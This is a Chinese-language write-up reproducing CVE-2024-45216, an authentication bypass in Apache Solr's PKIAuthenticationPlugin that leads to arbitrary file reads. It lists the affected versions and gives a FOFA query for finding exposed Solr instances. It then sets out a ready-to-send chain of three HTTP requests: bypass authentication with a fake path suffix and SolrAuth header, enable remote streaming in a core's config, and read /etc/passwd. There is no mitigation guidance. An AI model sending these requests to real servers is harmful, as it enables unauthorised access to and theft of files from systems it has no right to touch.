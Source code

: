 # Apache-Solr身份认证绕过导致任意文件读取漏洞复现(CVE-2024-45216)

**Apache Solr 身份认证绕过漏洞(CVE-2024-45216)**，该漏洞存在于Apache Solr的PKIAuthenticationPlugin中，该插件在启用Solr身份验证时默认启用。攻击者可以利用在任何Solr API URL路径末尾添加假结尾的方式，绕过身份验证访问任意路由，从而获取敏感数据或进行其他恶意操作。

## **影响版本**

5.3.0 <= Apache Solr < 8.11.4

9.0.0 <= Apache Solr < 9.7.0

## fofa

```javascript
app="APACHE-Solr"
```

## poc

利用:/admin/info/key绕过身份验证，获取core名称

```javascript
GET /solr/admin/cores:/admin/info/key?indexInfo=false&wt=json HTTP/1.1
Host: 
SolrAuth: test
```

![image-20241101193059643](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411011930714.png)

修改 core 配置

```javascript
POST /solr/core名称/config:/admin/info/key HTTP/1.1
Host: 
SolrAuth: test
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82Safari/537.36
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

{"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true}}
```

![image-20241101193142994](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411011931058.png)

读取文件/etc/passwd

```javascript
GET /solr/core名称/debug/dump:/admin/info/key?param=ContentStreams&stream.url=file:///etc/passwd HTTP/1.1
Host: 
SolrAuth: test
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9 
Accept-Encoding: gzip, deflate 
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6 
Connection: close
```

![image-20241101193217925](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411011932008.png)